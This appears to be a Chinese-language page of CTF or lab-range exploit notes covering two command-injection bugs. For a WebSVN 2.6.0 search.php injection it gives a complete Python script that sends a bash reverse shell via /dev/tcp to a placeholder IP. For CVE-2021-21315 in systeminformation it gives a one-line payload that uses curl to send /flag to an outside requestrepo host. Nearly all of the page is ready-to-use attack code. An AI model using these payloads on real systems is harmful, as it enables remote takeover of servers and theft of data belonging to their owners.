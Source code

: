 WebSVN是一个基于Web的Subversion Repository浏览器，可以查看文件或文件夹的日志，查看文件的变化列表等。其search.php?search= 参数下过滤不严谨导致RCE。

```
import requests
import argparse
from urllib.parse import quote_plus
 
PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/7777 0>&1'"
REQUEST_PAYLOAD = '/search.php?search=";{};"'
 
parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
parser.add_argument('target', type=str, help="Target URL.")
 
args = parser.parse_args()
 
if args.target.startswith("http://") or args.target.startswith("https://"):
    target = args.target
else:
    print("[!] Target should start with either http:// or https://")
    exit()
 
requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))
 
print("[*] Request send. Did you get what you wanted?")
```

## CVE-2021-21315 systeminformation存在命令注入

*靶标介绍：*

systeminformation是一个简单的查询系统和OS信息包

```
/api/osinfo?param[]=$(curl%20-d%20@/flag%20xxx.requestrepo.com)
```

![image-20230719155533236](%E9%9D%B6%E5%9C%BA.assets/image-20230719155533236.png)
